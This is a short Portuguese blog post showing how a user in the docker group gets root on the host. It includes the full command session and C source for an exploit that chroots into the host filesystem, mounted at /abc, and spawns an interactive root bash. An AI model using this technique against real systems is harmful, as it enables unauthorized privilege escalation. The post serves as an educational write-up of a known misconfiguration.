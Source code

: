 ```yaml
---
layout: post
title: Docker privilege escalation
---
```


# Docker privilege escalation

Uma dica rápida, estava procurando como rodar o docker
sem precisar usar o sudo e encontrei a resposta para o problema
na documentação oficial, bastava adicionar o usuário ao grupo docker e pronto,
e junto da solução também havia um aviso: adicionar o usuário ao grupo
docker dá ao mesmo privilegios de root.

E como eu poderia virar ruth ? A resposta é bem simples, quando
iniciamos um container o uid do processo é 0 (ou seja root), qualquer programa que você
execute terá permissão pra fazer qualquer coisa (talvez nem tudo, docker usa seccomp, é
so maneira de falar, mas vc entendeu ...), então podemos, por exemplo, mapear algum arquivo (/etc/shadow, /etc/passwd),
e usar um programa qualquer pra alterar o uid, ou adicionar um novo usuario, etc.

O que eu fiz foi bem simples, mapeei o dir / em /abc e usei um programa que executa ```chroot("/abc"); execve("/bin/bash", ...)```, take a l0.0k:

```
$ id
uid=171(luladrao) gid=171(luladrao) grupos=171(luladrao),974(docker)
$ docker build --tag luladrao .
Sending build context to Docker daemon  763.9kB
Step 1/3 : FROM scratch
 --->
Step 2/3 : ADD a.out /
 ---> 37b9f1f72752
Step 3/3 : CMD ["/a.out"]
 ---> Running in 72fa48821ba6
Removing intermediate container 72fa48821ba6
 ---> a9eca09cd332
Successfully built a9eca09cd332
Successfully tagged luladrao:latest
$ docker run --rm -it -v '/:/abc' luladrao
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
[root@a9138da798c2 .]# id
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
uid=0(root) gid=0(root) groups=0(root)
```

As mensagens de erro provalvemente são porque usei chroot, mas usando cd da pra navegar tranquilamente pelos diretórios, código do programa que usei:


```c
/* gcc -static [file.c] */

#define _GNU_SOURCE
#include <unistd.h>
#include <sys/syscall.h>



void main(int a, char **b, char **envp){
    syscall(SYS_chroot, "/abc");
    syscall(SYS_execve, "/bin/bash", (char *[]){ "bash", "-i", NULL}, envp);
}

```
